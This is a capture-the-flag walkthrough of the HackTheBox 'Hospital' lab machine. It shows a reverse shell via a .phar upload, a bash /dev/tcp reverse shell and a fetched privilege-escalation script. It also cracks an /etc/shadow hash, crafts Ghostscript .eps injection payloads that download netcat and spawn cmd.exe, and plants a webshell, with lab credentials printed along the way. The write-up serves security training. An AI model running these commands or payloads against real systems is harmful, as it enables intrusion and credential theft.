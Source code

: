 # HOSPITAL
## RECON
- Domain name hospital.htb
- WINDOWS 
- https://10.10.11.241/                 wemail login page
- jquery
- elastic
- 3389 windows remote desktop ?
- http://hospital.htb:8080/uploads/     FORBIDDEN

http://10.10.11.241:8080/login.php    
after creeating a user we can find a file upload form, upload a file i dont see any way to retrieve the url of the uploaded file http://10.10.11.241:8080/images/ or /uploads/ is Forbidden

we test all of the smbmap / crackmapexec / enum4linux / smbclient no luck here 

after uploading a .phar file we can see that the file is indeed in /uploads 
lets try to send some reverseshell with a .phar extension
it's working but the shell gets rejected right away
```
WARNING: Failed to daemonise. This is quite common and not fatal. ERROR: Can't spawn shell 
```
with pownyshell its working
```
www-data@webserver:…/www/html# cat config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
oddly enough we are on a ubuntu machine 
```
www-data@webserver:…/html/uploads# cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```

the uploaded files are being erased quite often so lets make a more stable reverseshell 
```
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/4444 0>&1'
```
looks like ubuntu 23.04 has CVE 
```
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
```
```
www-data@webserver:/tmp$ curl http://10.10.14.28:8000/exploit.sh > exploit.sh
curl http://10.10.14.28:8000/exploit.sh > exploit.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   559  100   559    0     0   9094      0 --:--:-- --:--:-- --:--:--  9163
www-data@webserver:/tmp$ sh exploit.sh
sh exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
whoami
root
```
we can see on the server the user drwilliams
```
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
mysql:!:19620::::::
```
hashcat the drwilliams line we get 
```
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
```
try this on the webmail server we can connect

on the mail we can find here we can see there is a story about .eps files lets check if we can craft a malicious one
```
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
```
create a .eps reverse shell
```
CVE_2023_36664_exploit.py --generate --revshell -ip 10.10.14.28 -port 4242 --filename trigger_revshell --extension eps
```
lets send him the needle :)
no callback lets try something else

after downloading the windows nc
we use the script to create the curl who will download the file on the windows box
```
python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.28:8000/nc.exe -o nc.exe" --filename file.eps
```
we got a callback the windows box has downloaded it
```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.241 - - [09/Dec/2023 18:13:33] "GET /gs10011w64.exe HTTP/1.1" 200 -
```
lets do the second command to make the box execute the executable 
```
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.28 4242 -e cmd.exe" --filename file.eps
```
and send it to the good doctor 

now we've got a shell and we can find in the same directory ghostcript.bat

```
C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>dir ../
dir ../
Invalid switch - "".
```

looks like a password here chr!$br0wn along with access for pscredential hospital\drbrown
try them on 
```
rpcclient -U "drbrown" 10.10.11.241
```
we can find here 
```
rpcclient $> querydispinfo
index: 0x2054 RID: 0x464 acb: 0x00020015 Account: $431000-R1KSAI1DGHMH  Name: (null)    Desc: (null)
index: 0xeda RID: 0x1f4 acb: 0x00004210 Account: Administrator  Name: Administrator     Desc: Built-in account for administering the computer/domain
index: 0x2271 RID: 0x641 acb: 0x00000210 Account: drbrown       Name: Chris Brown       Desc: (null)
index: 0x2272 RID: 0x642 acb: 0x00000210 Account: drwilliams    Name: Lucy Williams     Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf0f RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x2073 RID: 0x465 acb: 0x00020011 Account: SM_0559ce7ac4be4fc6a  Name: Microsoft Exchange Approval Assistant     Desc: (null)
index: 0x207e RID: 0x46d acb: 0x00020011 Account: SM_2fe3f3cbbafa4566a  Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}       Desc: (null)
index: 0x207a RID: 0x46c acb: 0x00020011 Account: SM_5faa2be1160c4ead8  Name: Microsoft Exchange        Desc: (null)
index: 0x2079 RID: 0x46b acb: 0x00020011 Account: SM_6e9de17029164abdb  Name: E4E Encryption Store - Active     Desc: (null)
index: 0x2078 RID: 0x46a acb: 0x00020011 Account: SM_75554ef7137f41d68  Name: Microsoft Exchange Federation Mailbox     Desc: (null)
index: 0x2075 RID: 0x467 acb: 0x00020011 Account: SM_9326b57ae8ea44309  Name: Microsoft Exchange        Desc: (null)
index: 0x2076 RID: 0x468 acb: 0x00020011 Account: SM_b1b9e7f83082488ea  Name: Discovery Search Mailbox  Desc: (null)
index: 0x2074 RID: 0x466 acb: 0x00020011 Account: SM_bb030ff39b6c4a2db  Name: Microsoft Exchange        Desc: (null)
index: 0x2077 RID: 0x469 acb: 0x00020011 Account: SM_e5b6f3aed4da4ac98  Name: Microsoft Exchange Migration      Desc: (null)
```

nothing look interresting here 

into C:\Users\drbrown.HOSPITAL\Desktop> we can find user.txt


i figure webmail needs administrator access to work so 
upload a webshell into C:\xampp\htdocs looks like this is the folder of the webmail 
```
curl 10.10.14.28:8000/pownyshell.php -o powny.php
```

go to 

```
https://hospital.htb/powny.php
```

We have now access to C:\Users\Administrator\Desktop where there is root.txt

Rooted
